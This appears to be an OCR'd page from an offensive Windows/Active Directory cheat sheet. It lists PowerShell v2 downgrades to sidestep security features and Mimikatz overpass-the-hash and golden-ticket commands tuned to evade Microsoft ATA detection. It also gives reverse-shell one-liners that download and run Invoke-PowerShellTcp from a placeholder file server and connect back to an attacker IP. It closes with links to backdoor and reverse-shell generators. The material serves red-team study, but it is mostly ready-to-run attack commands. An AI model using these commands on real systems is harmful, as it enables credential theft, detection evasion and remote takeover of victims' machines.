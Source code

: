 #### Downgrade to version 2;  
PowerShell version 2 lacks many security mechanisms.
```
get-host
powershell.exe -Version 2
get-host
```

### Microsoft ATA (Advanced Threat Analytics) 
https://learn.microsoft.com/pt-br/advanced-threat-analytics/what-is-ata

#### Evading ATA - Overpass-the-hash - Bypass
* normal AS-REQ packet looks like:  
\\ etype: eTYPE AES256-CTS-HMAC-SHA1-96  
* AS-REQ packet overpass-the-hash:  
```
Payload: Invoke-Mimikatz '"sekurlsa::pth /userprivservice /domain:offensiveps.com /ntlm:ntlmhash"'  
```
\\ etype: eTYPE-ARCFOUR-HMAC-MD5  

For bypass:  
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:privservice /domain:offensiveps.com /aes256:aes256 /ntlm:ntlm /aes128:aes128'"
```
AES256+AES128+NTLM(RC4) together reduces chances of detection.  
"AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with KB2871997, in this case you can avoid NTLM hash."  
https://www.blackhat.com/docs/us-17/thursday/us-17-Mittal-Evading-MicrosoftATA-for-ActiveDirectory-Domination.pdf  

#### Evading ATA - Golden Ticket - Bypass
```
Invoke-Mimikatz -Command '"kerberos::golden /User:privservice /domain:offensiveps.com /sid:sid /aes256:aes256keysofkrbrtgt /id:500 /groups:513 /ptt"'
```

### Reverse Shell and Access
* Invoke-PowerShellTcp + powercat  
```
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
powershell.exe iex (iwr http://<file_server_IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port 443
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<file_server_IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port 443
```
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1  
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

* Bypass  
"Villain is a Windows & Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, handy for working as a team."  
https://github.com/t3l3machus/Villain
Hoaxshell  
"hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell."  
https://github.com/t3l3machus/hoaxshell
